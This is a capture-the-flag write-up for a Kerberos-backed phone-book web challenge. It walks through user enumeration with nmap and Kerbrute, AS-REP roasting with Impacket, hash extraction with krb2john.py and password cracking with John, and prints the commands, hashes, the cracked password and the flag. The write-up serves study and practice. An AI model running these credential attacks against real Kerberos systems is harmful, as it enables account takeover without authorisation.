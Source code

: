 # Phone Book

Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on `http://78.128.246.142`, don't make them wait too long.

Good Luck!

---

This is the web:

![](phone-book.png)

Login with random credentials returns:
> invalid credentials, ('Client not found in Kerberos database', -1765328378)

Ok, so we're dealing with Kerberos here..

Next, I did port scan to look for Kerberos KDC (_Key Distribution Center_):
```
$ nmap 78.128.246.142
..
PORT   STATE SERVICE
80/tcp open  http
88/tcp open  kerberos-sec
```

## Step 1: Username enumeration

At first, I was trying to do various Kerberos user enumeration attacks using _nmap_ script `krb5-enum-users` and
[Kerbrute](https://github.com/ropnop/kerbrute).
I couldn't find any valid usernames though. I tried a few different username lists.

No luck with:
```
$ nmap -p 88 --script= --script-args krb5-enum-users.realm='SUPERPHONEBOOK.TCC',userdb=my-krb-users.txt 78.128.246.142
$ ./kerbrute_linux_amd64 userenum --dc 78.128.246.142 -d SUPERPHONEBOOK.TCC MY-krb-users.txt
```

Then, I decided to fuzz the web app a bit. I got lucky when fuzzing _search_ with SQLi payloads `query=123 or 1=1 --`:
```
email: tytso@superphonebook.tcc<p>
name: Theodore Ts&#39;o<p>
homepage: <p>
phone: anonymous phone search disabled<p>
```

Test if it's a valid username (configure `krb5.conf` first):
```
$ kadmin -p tytso
Authenticating as principal tytso with password.
Password for tytso@SUPERPHONEBOOK.TCC:
```

Bingo! This is a valid user. Otherwise we wouldn't be asked for the password.

At first, I thought it's a SQLi but that's not true. It's just the `or` part which is contained in `TheodORe` name.
Other characters were stripped.

The search algorithm accepts at least 2 characters. Easy to enumerate them all (`[a-z]{2}`) using _OWASP ZAP_.
I discovered 4 records in total:
```
email: aaron@superphonebook.tcc
name: Aaron Spelling
homepage: http://enumerate.more
phone: anonymous phone search disabled

email: bill@superphonebook.tcc
name: Bill Bryant
homepage: https://web.mit.edu/kerberos/www/dialogue.html
phone: anonymous phone search disabled

email: harmj0y@superphonebook.tcc
name: Will Schroeder
homepage: https://www.harmj0y.net
phone: anonymous phone search disabled

email: tytso@superphonebook.tcc
name: Theodore Ts'o
homepage:
phone: anonymous phone search disabled
```

However, only `tytso` has a Kerberos account. Others are probably just hints.

## Step 2: Get hash to crack

See [ASREPRoast attack](https://kylemistele.medium.com/impacket-deep-dives-vol-2-attacking-kerberos-922e8cdd472a).

```
$ python3 GetNPUsers.py SUPERPHONEBOOK.TCC/tytso -dc-ip 78.128.246.142 -no-pass -format john
Impacket v0.9.24.dev1+20211022.182843.4229481c - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for tytso
$krb5asrep$tytso@SUPERPHONEBOOK.TCC:915e778e3b41ef7138817deda726a6a7$a34ae6e42c3a74a01f92a54153d2b569a68cba0f627edefb82578794fdcaecdf1c82d68675bf0deb1467d28dac5a6ea8ef1e4f29ada4408101d36e489d32520f9d453712152b6e12d6007bf3b39606ddfa2f6043514b2f36da02ddf9a62456ba225c892162fef69683b7ce6f0caf2bf6b635f090ab88bcefda541155f78c022589e9884a2d2a85b38767319fa27dd56de32b96a05be61ad49800144d756c30e9e89c2723fdc3d78586dbe0f526ea20afd2830de840882515142ca115e6ee0ffbcdda2a7a87c5b88e527ecd53f03b9615d56911b72ca94239aacec911f198942432d47813da5d
```

This is where things started to went wrong. One of the official hint was:
> Impacket is not always the best friend ...

I should have listened. The issue is that the hash produced by [Impacket](https://github.com/SecureAuthCorp/impacket)
is not crackable with John. I don't know why, but it's definitely not well-formatted.

After lots of struggling with cracking the password (probably the biggest rabbit hole being the fact
`tytso` is the author of [pwgen](https://github.com/tytso/pwgen) password generator, which is however completely
unrelated to this challenge), I ran into
[krb2john.py](https://github.com/openwall/john/blob/1.9.0-Jumbo-1/run/krb2john.py) script.

### krb2john.py

1) Run Wireshark and capture the Kerberos packets. You can use _Impacket_ for provoking the authentication.
2) Save the capture as `kerb.pcapng`.
3) Convert it to `pdml` format: `$ tshark -r kerb.pcapng -T pdml > kerb.pdml`
4) Extract the hash:
   ```
   $ python3 /usr/share/john/krb2john.py kerb.pdml
   $krb5asrep$18$SUPERPHONEBOOK.TCCtytso$73887cda1214e43cc5c5d64b4987e1a9c82f548ad5db4f50cc9eb203bc66e959bfee6e5ed661f50c383a1b7fefe4b4901d94baedcc5e849077f306df912104a2d82c48645ec25c99108dd0aec67aa64b1a3d8ec7169f7f592fc5eb5a3b29efdeb4791b4a5ee9353d1aa25c8f18e9fa7b95cdddb3702d233002596b72514fd9120749eeeb1a433221e5189037ae355bf0dfe3b6fc876796849ac5f829bbbfcf438dd3e5d4143dc09b7fdeeb9d0aa115dcb679ff676d266e14989e7c87bcefd3663d0dffe8f267db90a70ed8af3aa1ba01bbc32e1008f6cf26f748a5141f2411b0cf25f4897064264b7436$7946a63bbe88d45deabb5e7b
   ```
5) Save this hash as `kerb.hash`.

## Step 3: Crack the hash

With the correct hash, cracking is very easy:
```
$ john kerb.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
garfunkel4       (?)
1g 0:00:00:03 DONE 2/3 (2021-10-27 11:00) 0.2506g/s 12318p/s 12318c/s 12318C/s inlove4..ship4
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is `garfunkel4`.

## Step 4: Grab the flag

Login on the web using `tytso/garfunkel4` and search for `Theo`. Flag is stored as Theo's phone:
```
FLAG{MLeq-38Tt-Y1Tz-NdE9}
```

Very nice challenge, except for the broken _Impacket_ script...